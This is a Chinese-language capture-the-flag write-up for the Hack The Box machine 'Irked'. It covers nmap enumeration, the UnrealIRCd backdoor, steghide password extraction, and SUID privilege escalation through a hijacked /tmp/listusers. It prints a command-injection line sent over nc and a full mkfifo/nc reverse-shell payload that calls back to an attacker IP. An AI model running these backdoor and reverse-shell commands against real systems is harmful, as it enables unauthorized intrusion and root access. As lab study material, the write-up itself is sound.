






Irked Writeup

0x00 TODO
跑一下 LinEnum.sh 看下能不能跑出 /home/djmardov/.backup 文件。
0x01 信息收集

0x02 枚举
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse 10.10.10.117扫到 unrealircd 后门。

实际上这里要开启后门只要 nc 命令过去就可以了。需要登陆吗，待确认
echo "AB; ping -c 4 10.10.14.21;"|nc 10.10.10.117 6697
0x03 立足点
unrealircd 后门利用，执行反弹 shell 命令拿到普通用户 ircd权限。
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 4444 >/tmp/f &' 10.10.10.117
ircd 并没有 user flag，找到 djmardov 用户 ./documents，无权限打开 user.txt，看了 sudo -l 没有可以切换的姿势，在 documents 下 ls -la 发现隐藏文件 .backup，cat 一下是一个 xxx step backup pw，像是某个密码，用来 ssh djmardov@10.10.10.117 不对，于是 google 一下发现跟 stephide 这个工具有关。
stephide 是用于将文件隐藏在图片、音频的工具。
stephide extract -sf irked.jpg -p password # 提取文件
steghide embed -ef secret.txt -cf irked.jpg # 隐藏文件，自己要验一下
# 会被提示输入口令
Enter passphrase:Re-Enter passphrase:embedding "secret.txt" in "irked.jpg"... done提取出来看到 pass.txt，ssh djmardov@10.10.10.117 登录成功，拿到 user.txt。
0x04 提权
1、Apache JSP webshell
查看 html 目录是否可写，因为这里 apache 是 root 启动，有 webshell 就有 root，但是 /var/www/html 目录不可写。
2、SUID
2.1、exim4
exim4 - 4.84-2 看有提权漏洞，实则兔子洞，很坑。

2.2、listusers
另辟蹊径，轻松提权。

因为这里有提示
listusers not found，才会让人注意到这里执行了一个文件/tmp/listusers。
假如这个文件存在呢，没有提示，那要怎么知道执行了哪个文件？正确操作应该是把 viewuser 转 b64 提到本地做分析。
# 靶机二进制文件转 b64 base64 -w /usr/bin/viewuser > b.64 # 下载到本地解码 b64 base64 -d b.64 > viewuser chmod +x viewuser strace ./viewuser # 看里面的执行逻辑 - 姿势1 易于阅读 ltrace ./viewuser # 看里面的执行逻辑 - 姿势2可以看到执行了具体哪个文件
system("/tmp/listusers")，最后做修改替换执行/bin/bash。
(图)